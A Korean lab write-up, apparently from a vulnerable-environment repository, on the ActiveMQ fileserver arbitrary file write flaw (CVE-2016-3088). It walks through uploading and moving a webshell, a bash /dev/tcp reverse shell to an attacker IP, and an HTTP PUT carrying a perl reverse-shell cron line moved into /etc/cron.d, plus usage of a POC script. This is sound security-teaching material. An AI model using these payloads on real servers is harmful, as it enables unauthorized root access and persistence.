# ActiveMQ 임의 파일 쓰기 취약점 (CVE-2016-3088)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)
    <br/><br/>

## 환경 설정

docker.sh을 실행하여 docker를 다운로드 한 후 docker-compose.yml파일과 같은 디렉토리에서 아래에 명령어를 실행하여 취약한 환경을 구축한다.

    docker compose up -d

해당 환경은 포트 61616과 포트 8161을 수신한다. 8161포트는 웹 콘솔 포트이다. 8161포트를 통해 웹 사이트에 접근할 수 있으며, 해당 웹 콘솔에서 취약점이 발생한다.

환경이 성공적으로 실행되는지 보기위해 `http://your-ip:8161/`에 방문하여 확인할 수 있다.


## 배경 설명

ActiveMQ란 Apache Software Foundation에서 개발된 오픈 소스 메시지 브로커(Message Broker)로 메시징 시스템에서 메시지를 중개하고 전달하는 역할을 한다. Java로 작성되었으며, Java Message Service (JMS)를 지원하여 다양한 애플리케이션 간에 비동기적인 통신을 가능하게 한다.
큐(Queue)와 토픽(Topic)이라는 두 가지 메시지 전달 방식을 지원하며, 큐(Queue) 방식은 메시지를 수신 대기 중인 클라이언트 중 하나에게 전달하고, 토픽(Topic) 방식은 메시지를 여러 구독자에게 전달하는 방식이다.

ActiveMQ 웹 콘솔은 admin, api및 fileserver의 세 가지 애플리케이션으로 구분된다. 여기서 admin은 관리자 페이지, api는 인터페이스, fileserver는 파일 저장을 위한 인터페이스이다. Admin및 api는 사용하기 전에 로그인을 해야하지만, fileserver는 로그인을 안해도 이용할 수 있다.
Fileserver는 RESTful API인터페이스이다. GET, PUT, DELETE 등의 HTTP 요청을 통해 저장된 파일을 읽고 쓸 수 있다.

## 취약점 정보

해당 취약점은 fileserver애플리케이션에서 나타난다. Fileserver는 임의의 파일 쓰기와 파일 이동을 지원하여 공격자가 원하는 악성 파일을 공격자가 원하는 위치에 삽입할 수 있다.
하지만 웹 쉘을 삽입하기 위해서는 admin, api 모두 로그인을 해야 접근이 가능하다. Cron과 ssh key를 이용하여 리버스 쉘을 직접적으로 실행할 수 있다. 하지만 루트 권한이 필요하다는 단점이 존재한다.

## 취약점 분석


ActiveMQ의 FileServer 서비스를 사용하면 사용자는 HTTP PUT 방식을 통해 지정된 디렉터리에 파일을 업로드할 수 있다. PUT의 백그라운드 처리를 위한 코드를 보면 localfile이라는 함수를 호출한다.<br/><br/>


파일을 생성할 때 대상 경로에 어떠한 제한이나 필터링이 적용되지 않았다.<br/><br/>


MOVE 요청의 코드에서도 localfile함수를 호출한다. move 요청 함수를 살펴보면 destination이라는 헤더를 입력받고 destination경로로 파일을 이동한다.<br/><br/>

## 웹 쉘 작성

웹 쉘은 admin또는 api app에서 작성해야하며, 두 애플리케이션 모두 로그인을 해야 접근할 수 있다.
기본 ActiveMQ계정과 비밀번호는 admin이다.
먼저 `http://your-ip:8161/admin/test/systemProperties.jsp` 에 방문하여 ActiveMQ의 절대경로를 확인한다.


ActiveMQ.home이 /opt/activemq에 있음을 알 수 있다.<br/><br/>

이제 fileserver에 임의의 파일을 업로드한다.


fileserver/1.txt에 접속을 하여 업로드한 파일을 확인할 수 있다. 204 응답 코드가 뜨면 성공한 것이다.<br/><br/>

사용자가 원하는 파일을 업로드할 수 있다는 것을 알았으니 웹 쉘을 업로드한다.


fileserver/1.txt에 접속하여 웹 쉘이 잘 업로드 된 것을 확인할 수 있다.<br/><br/>


그 후 move로 /opt/activemq/webapps/api/webshell.jsp라는 이름으로 이동을 한다.<br/><br/>


업로드 한 후 /api/webshell.jsp에 접근하여 로그인을 진행한다.<br/><br/>


로그인을 하면 웹 쉘이 띄워졌음을 확인할 수 있다.<br/><br/>


공격자 서버에서 리스닝 포트를 연다.<br/><br/>


그 후 웹쉘에서 <pre><code>sh -i >& /dev/tcp/192.168.60.132/9999 0>&1</code></pre> 를 입력하여 리버스 쉘을 작동시킨다.
리버스 쉘이 연결된 후 id명령어를 수행하여 root권한을 확인하였다.<br/><br/>

## Crontab 작성, 리버스 쉘 자동화

cron을 이용하여 리버스 쉘을 자동으로 실행하도록 하였다.
/etc/cron.d/ 디렉토리에 파일을 설정하면 자동으로 해당 작업을 실행한다. 이를 이용하여 리버스쉘 코드를 /etc/cron.d/ 디렉토리에 파일 업로드하여 쉘을 획득할 수 있다. 이것은 root권한으로 ActiveMQ 서버를 열었을 때만 공격이 가능하다.



perl 명령어를 이용하여 리버스 쉘을 매분마다 실행하도록 하였다.
<br/><br/>

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.60.132:8161
Content-Length: 251

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.45.249";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


```

cron 설정파일을 업로드 한 후 move를 이용하여 /etc/cron.d/ 디렉터리에 해당 설정 파일을 이동한다.<br/><br/>


destination 헤더에 경로를 입력하여 /etc/cron.d/root파일의 이름으로 설정 파일을 이동하였다.<br/><br/>


공격자 환경에서 리스닝 포트를 열고 기다리면 리버스 쉘이 작동하여 ActiveMQ 서버의 root 권한을 획득할 수 있다.<br/><br/>


ActiveMQ 서버의 로그를 보면 매 분마다 리버스 쉘 코드가 작동되는 것을 확인할 수 있다.

## POC(Proof of Concept)

### 사용법

`python POC.py -url 상대방 주소 -lhost 내 ip주소 -lport 리스닝할 포트`

### 명령어 실행 예

`python POC.py -url http://192.168.60.132:8161 -lhost 192.168.45.249 -lport 9999`

### 결과

#### 윈도우(VScode)



#### 리눅스(ubuntu)


